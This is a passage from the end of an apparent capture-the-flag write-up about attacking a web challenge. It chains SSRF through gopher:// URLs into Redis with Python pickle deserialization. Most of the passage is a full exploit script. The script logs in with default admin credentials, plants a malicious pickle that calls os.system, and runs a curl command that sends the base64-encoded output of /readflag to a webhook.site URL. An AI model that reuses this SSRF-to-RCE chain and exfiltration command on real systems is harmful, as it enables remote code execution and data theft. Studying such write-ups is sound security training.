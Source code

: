 Then, we can add our id to the job queue:

```
gopher://localhost:6379/_RPUSH%20jobqueue%209999%0aQUIT
```

Note that the `%0aQUIT` is most likely optional, but it prevents the connection from hanging behind the scenes.  
redis will keep the connection alive a while if it is not explicitly ended.  


#### Scripts

```python
import pickle
import time
import requests
from base64 import b64encode

STAGE_1  = "gopher://localhost:6379/_HSET%20jobs%201337%20{}%0aQUIT"
STAGE_2  = "gopher://localhost:6379/_RPUSH%20jobqueue%201337%0aQUIT"
PING = "curl https://webhook.site/3578d2dc-d2dd-468b-a8c9-9bda1f8d1281/$(/readflag|base64 -w0)"

TARGET = "http://localhost:1337"
ADD_TRACKS_ENDPOINT = "/api/tracks/add"
LOGIN_ENDPOINT = "/api/login"

class Ted():
    # No one likes ted..
    def __reduce__(self):
        return __import__('os').system, (PING,)

def setup_trap(s: requests.Session, url: str) -> (int, str):
    r = s.post(TARGET + ADD_TRACKS_ENDPOINT, 
                  json={"trapName": ":: Gh0sted :: ", "trapURL": url})
    return (r.status_code, r.text)


if __name__ == "__main__":
    s = requests.Session()
    print("[*] Logging in ")
    s.post(TARGET + LOGIN_ENDPOINT, json={"username": "admin", "password": "admin"})

    print("[*] Launching stage 1")
    ted = Ted()
    dilled_vengeance = b64encode(pickle.dumps(ted)).decode('utf-8')
    print("[?] PICKLE: ", dilled_vengeance)
    code, content = setup_trap(s, STAGE_1.format(dilled_vengeance))
    print("[?] CODE:", code)
    print("[?] CONTENT:", content)

    time.sleep(10)

    print("[*] Launching stage 2")
    code, content =  setup_trap(s, STAGE_2)
    print("[?] CODE:", code)
    print("[?] CONTENT:", content)

```

This was a fun challenge.
